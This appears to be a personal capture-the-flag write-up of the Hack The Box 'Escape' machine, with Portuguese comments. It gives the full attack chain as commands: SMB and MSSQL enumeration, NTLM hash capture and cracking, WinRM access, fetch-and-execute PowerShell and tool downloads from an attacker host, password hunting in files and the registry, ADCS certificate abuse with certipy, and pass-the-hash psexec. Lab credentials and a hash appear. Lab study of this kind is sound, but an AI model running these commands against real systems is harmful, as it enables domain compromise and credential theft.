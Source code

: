 Escape
========================


## Enumeration


    sudo nmap_enum 10.10.11.202

![qownnotes-media-CdhtfS](../../../media/qownnotes-media-CdhtfS.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn escape.htb | tee nmap_udp_output.txt

![qownnotes-media-ElOypL](../../../media/qownnotes-media-ElOypL.png)

    sudo nmap -p- -Pn -T5 -n escape.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-WsqFaG](../../../media/qownnotes-media-WsqFaG.png)

    rpcclient -U '' -N 10.10.11.202
    srvinfo
    enumdomusers
![qownnotes-media-JePJEp](../../../media/qownnotes-media-JePJEp.png)

    smbclient -L //escape.htb

![qownnotes-media-aCpQkO](../../../media/qownnotes-media-aCpQkO.png)

    smbclient //10.10.11.202/Public

![qownnotes-media-KemWIP](../../../media/qownnotes-media-KemWIP.png)

    open SQL\ Server\ Procedures.pdf

![qownnotes-media-FBmKKL](../../../media/qownnotes-media-FBmKKL.png)

DNS enumeration

    dig axfr escape.htb @10.10.11.202

![qownnotes-media-rLJaAw](../../../media/qownnotes-media-rLJaAw.png)


## Exploitation

    impacket-mssqlclient 'PublicUser:GuestUserCantWrite1@escape.htb'

![qownnotes-media-lMlzkc](../../../media/qownnotes-media-lMlzkc.png)

    #MSSQL enumeration
    select user_name();
    SELECT name FROM master.dbo.sysdatabases;
    SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
![qownnotes-media-GbaVJD](../../../media/qownnotes-media-GbaVJD.png)

![qownnotes-media-xienmM](../../../media/qownnotes-media-xienmM.png)

    CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
    
![qownnotes-media-xbqbGe](../../../media/qownnotes-media-xbqbGe.png)

    select name, create_date, modify_date, type_desc as type, authentication_type_desc as authentication_type, sid from sys.database_principals where type not in ('A', 'R') order by name;
    sp_configure 'show advanced options', '1'
    EXEC master..xp_cmdshell 'whoami'
    EXEC sp_helprotect 'xp_dirtree';
![qownnotes-media-ktBPkP](../../../media/qownnotes-media-ktBPkP.png)

    impacket-smbserver -smb2support smb .

![qownnotes-media-aGTxBk](../../../media/qownnotes-media-aGTxBk.png)

![qownnotes-media-CerESf](../../../media/qownnotes-media-CerESf.png)

    cat hash.txt
    john -w=/usr/share/wordlists/rockyou.txt hash.txt

![qownnotes-media-nxpTHl](../../../media/qownnotes-media-nxpTHl.png)

    evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie

![qownnotes-media-xquJjK](../../../media/qownnotes-media-xquJjK.png)


## Privilege Escalation

    whoami /all
    systeminfo
    iex (new-object net.webclient).downloadstring('http://10.10.14.17/4-privilege%20escalation/PowerUp.ps1'); invoke-allchecks
 
 ![qownnotes-media-LTllWT](../../../media/qownnotes-media-LTllWT.png)

    wget http://10.10.14.17/4-privilege%20escalation/winPEASx64.exe -o w.exe
    ./w.exe
    
    wget http://10.10.14.17/6-AD_Tools/SharpHound.exe -o SH.exe
    ./SH.exe
    download 20231121214139_BloodHound.zip

![qownnotes-media-pUeaCM](../../../media/qownnotes-media-pUeaCM.png)

    cmdkey /list

    gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
 
 ![qownnotes-media-VEoqdT](../../../media/qownnotes-media-VEoqdT.png)

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    
    findstr /si password *.doc *.txt *.ini *.config]

    Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
    
    schtasks /query /fo LIST /v

![qownnotes-media-vEYXEp](../../../media/qownnotes-media-vEYXEp.png)

    wmic qfe
    
    wmic logicaldisk get caption
    
    tasklist /svc > tl.txt
    
    Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

![qownnotes-media-nXboRo](../../../media/qownnotes-media-nXboRo.png)

    reg query HKLM /f *password* /t REG_SZ /s
    
    cd c:/users
    gci -recurse

![qownnotes-media-wPJWMW](../../../media/qownnotes-media-wPJWMW.png)

Aqui eu voltei para o banco para saber se dava para escalar por meio do próprio banco:

    SELECT * FROM sys.fn_builtin_permissions(DEFAULT);

    SELECT IS_SRVROLEMEMBER('sysadmin');

    EXEC sp_helprotect 'xp_cmdshell';
    
    SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
    
    EXEC sp_helprotect 'xp_fileexist';
    
    SELECT suser_sname(owner_sid) FROM sys.databases
    
    EXECUTE AS LOGIN = 'sa'
    
    SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
    
    SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';

Depois eu prossegui com outra estratégia que foi possível obter a escalação de privilégio por meio de ADCS (AD CS):

    /home/acosta/owncloud/Area_de_trabalho/tools/linux/6-Others/Certipy/venv/bin/certipy find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -stdout -vulnerable

![qownnotes-media-VriyfY](../../../media/qownnotes-media-VriyfY.png)

    /home/acosta/owncloud/Area_de_trabalho/tools/linux/6-Others/Certipy/venv/bin/certipy req -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -ca sequel-DC-CA -template UserAuthentication -upn 'Administrator@sequel.htb'

    /home/acosta/owncloud/Area_de_trabalho/tools/linux/6-Others/Certipy/venv/bin/certipy auth -pfx administrator.pfx

![qownnotes-media-vtxqjr](../../../media/qownnotes-media-vtxqjr.png)

    impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee Administrator@sequel.htb
    
![qownnotes-media-dOKLrE](../../../media/qownnotes-media-dOKLrE.png)

Tem outras formas de fazer o ADCS também com acesso local na máquina que seria com o certify:

<https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin?source=post_page-----931dba100509-------------------------------->

<https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation?source=post_page-----931dba100509-------------------------------->

Uma outra opção ainda seria com o crackmapexec:

    crackmapexec ldap 10.129.204.177 -u grace -p Inlanefreight01! -M adcs 